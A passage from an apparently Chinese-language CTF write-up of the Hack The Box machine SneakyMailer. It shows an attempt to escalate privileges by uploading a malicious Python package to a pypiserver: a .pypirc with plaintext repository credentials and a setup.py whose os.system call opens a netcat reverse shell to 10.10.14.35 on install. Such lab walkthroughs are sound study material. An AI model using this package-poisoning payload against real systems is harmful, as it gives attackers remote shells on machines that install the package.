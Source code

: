 5000有一个服务




理论上我们应该能将自己的packages存入目录，然后等low来安装，这样就可以获得low的权限，但是我们没有写权限

我们有两组凭证尝试一下切换用户

![]({{ site.url }}/assets/SneakyMailer_197.assets/20201031021751626_3391.png)

只能切换到developer
仍然不能写入packages

搜索了一下pypiserver
在文档中找到了线索

`https://pypi.org/project/pypiserver/#upload-with-setuptools`

![]({{ site.url }}/assets/SneakyMailer_197.assets/20201031002347031_11927.png)

发现是可以通过setuptools上传文件到指定位置的

## 错误的尝试
----
以下为错误部分，但值得思考

根据文档在本地构造

```bash
[distutils]
index-servers =
  pypi
  local

[pypi]
username:x
password:x

[local]
repository: http://pypi.sneakycorp.htb:8080
username: pypi
password: soufianeelhaoui
```

payload.py

```python
import setuptools
import os
os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.35 1339 >/tmp/f")
setuptools.setup(
        name='payload',
        version='1',
        author='evil',
        license='MIT'
)
```
```
mkdir /tmp/evilx
cd /tmp/evilx
```
按照文档.pypirc需要放在用户文件夹下
将PATH设置到这里
`export HOME=/tmp/evilx`
